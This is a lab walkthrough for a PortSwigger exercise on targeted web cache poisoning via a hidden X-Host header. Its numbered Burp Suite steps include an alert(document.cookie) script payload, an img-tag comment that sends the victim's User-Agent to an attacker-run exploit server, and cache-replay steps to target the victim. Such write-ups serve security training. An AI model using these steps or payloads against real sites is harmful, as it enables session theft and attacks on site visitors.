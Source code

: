 # Targeted web cache poisoning using an unknown header

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header) is vulnerable to web cache poisoning. A victim user will view any comments that you post.

## Reproduction

1. With Burp running, load the website's home page.
2. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. Find the `GET` request for the home page.
3. With the **Param Miner** extension enabled, right-click on the request and select **Guess headers**. After a while, **Param Miner** will report that there is a secret input in the form of the `X-Host` header.
4. Send the `GET` request to Burp Repeater and add a cache-buster query parameter, such as `?cb=1234`.
5. Add the `X-Host` header with an arbitrary hostname, such as `example.com`. The value of this header is used to dynamically generate an absolute URL for importing the JavaScript file stored at `/resources/js/tracking.js`.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

```text
/resources/js/tracking.js
```

7. In the body, enter the payload `alert(document.cookie)` and store the exploit.
8. Go back to the request in Burp Repeater and set the `X-Host` header with the exploit server url:

```text
X-Host: your-exploit-server-id.web-security-academy.net
```

9. Send the request until you see the exploit server URL reflected in the response and `X-Cache: hit` in the headers.
10. To simulate the victim, load the URL in your browser and make sure that the `alert()` fires.
11. The `Vary` header is used to specify that the `User-Agent` is part of the cache key. To target the victim, you need to find out their `User-Agent`.
12. On the website, notice that the comment feature allows certain HTML tags. Post a comment containing a suitable payload to cause the victim's browser to interact with your exploit server, for example:

```text
<img src="https://exploit-0a21009d04709c47c10d2f60017e00dc.exploit-server.net/foo" />
```

13. Go to the blog page and double-check that your comment was successfully posted.
14. Go to the exploit server and click the button to open the **Access log**. Refresh the page every few seconds until you see requests made by a different user. This is the victim. Copy their `User-Agent` from the log.
15. Go back to your malicious request in Burp Repeater and paste the victim's `User-Agent` into the corresponding header. Remove the cache buster.
16. Keep sending the request until you see your exploit server URL reflected in the response and `X-Cache: hit` in the headers.
17. Replay the request to keep the cache poisoned until the victim visits the site and the lab is solved.

## PoC

<iframe title="Targeted web cache poisoning using an unknown header" src="https://tube.spdns.org/videos/embed/21ece026-35dc-44b2-8e9b-73c6c8e96551" allowfullscreen="" sandbox="allow-same-origin allow-scripts allow-popups" width="560" height="315" frameborder="0"></iframe>

----

## Exploitability

An attacker will need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser; and also needs to make sure that the response is served to the specific subset of users to which the intended victim belongs. 
